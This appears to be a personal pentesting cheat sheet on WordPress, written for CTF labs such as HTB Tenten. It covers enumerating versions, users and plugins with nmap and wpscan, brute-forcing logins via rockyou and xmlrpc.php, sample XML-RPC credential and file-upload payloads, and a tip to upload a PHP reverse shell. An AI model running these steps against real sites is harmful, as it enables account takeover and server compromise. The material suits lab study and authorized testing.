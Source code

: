 ```yaml
---
layout: post
title: Wordpress
description: Wordpress
summary: Wordpress
tags: [web,enum,wordpress]
minute: 2
---
```

## Version
* On meta generators

![](/assets/Wordpress/3101332D-061A-4AFA-ACEA-18A476551E16.png)

* Check interesting URL paths below

## Credentials
* Seems you really need to find valid credentials to wordpress before exploiting
* Try going to `/?author=1` and enumerate from there to see the usernames
* There is no default credentials. Installation will ask user to provide the creds.
* You can guess valid usernames though

![](/assets/Wordpress/FCE001CA-BCC0-44B1-94FF-9B2152812FDF.png)

## Recon
```bash
# Kickoff nmap
nmap -p80 --script http-wordpress-enum,http-wordpress-users 10.10.71.200

# Using wpscan (you can remove api token but some
# information will not be displayed)
# NOTE: wpscan may not report all vulnerabilities specially
# on plugins
wpscan --url http://10.10.10.29 --api-token {API_TOKEN}

# Similar to above but on another path
wpscan --url http://10.10.10.29/wordpress --api-token {API_TOKEN}
```

* Check for `colorlib` in HTML elements. This is a WP plugin.

## Interesting URL Paths
```bash
# you may find version here
/wp-links-opml
/wp-links-opml.php
/readme.html

# uploads directory
/wp-content/uploads/YYYY/DD/FILENAME

# login
/wp-login.php
```

## Interesting files
```bash
# DB credentials
wp-config.php
```

## Brute Force
```bash
# Using nmap
map -p80 --script http-wordpress-brute 10.10.10.29

# User IDs can be extracted from here. You can use
# burp sniper intruder and generate a list of user
# id from 1 to 100 using bash for loop.
curl -s -I -X GET http://10.10.10.29/?author=1

# You can use this python script from
# https://github.com/relarizky/wpxploit
# This can take around 30 minutes to complete
# TIP: try using "admin" as username first
cd ~/data/tools/webapp/wpxploit
./exploit.py http://10.10.127.229/wordpress 5 15

# You can also use wpscan
wpscan --url http://10.10.127.229/wordpress --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```

* Once you have the credentials you can try uploading a PHP reverse shell
* TIP: bruteforce is done by sending this POST data containing username and password

```xml
<methodCall>
  <methodName>
    wp.getUsersBlogs
  </methodName>
  <params>
    <param>
      <value>
        admin
      </value>
    </param>
    <param>
      <value>
        gansta1
      </value>
    </param>
  </params>
</methodCall>
```

## Interesting URL Paths
```bash
# most can be reported by wpscan
/wp-content/uploads/
/wp-admin/
/wp-admin/update-core.php
/wp-admin/upgrade.php
/install.php
/wp-cron.php

# can accept post requests if active
/xmlrpc.php

# others
/plugins
/wp-content/plugins
```

For xmlrpc.php, you can use burpsuite to send some POST requests like this.

```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 10.10.10.29
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

## XML RPC calls
```bash
# List all method calls
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

# Get blogs
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>username</value></param>
<param><value>password</value></param>
</params>
</methodCall>

# Uploading a file
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

## Themes
* Maybe you can also find theme exploits?

![](/assets/Wordpress/17000E5E-19E8-4681-A8D6-E9D0AA546605.png)

## Plugins
* You can search for plugin exploits also, one way of determining the plugin used is via html elements. Version can also be determined there.

![](/assets/Wordpress/98C48061-F8E3-4613-B122-E45B3D750365.png)

![](/assets/Wordpress/0B054482-2FAF-43DA-B89C-1A847D63C7D9.png)

* You can also add `--plugins-detection aggressive --plugins-version-detection aggressive` in `wpscan`

## Troubleshoting
* Sending `POST` to `/xmlrpc.php` produces 200 OK but with `parse error. not well formed` message most likely caused by [missing php/xml parser library](https://github.com/maxcutler/python-wordpress-xmlrpc/issues/110) inside the server. I encountered this in HTB Tenten.

## References
* [Wordpress - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress)
* HTB Tenten
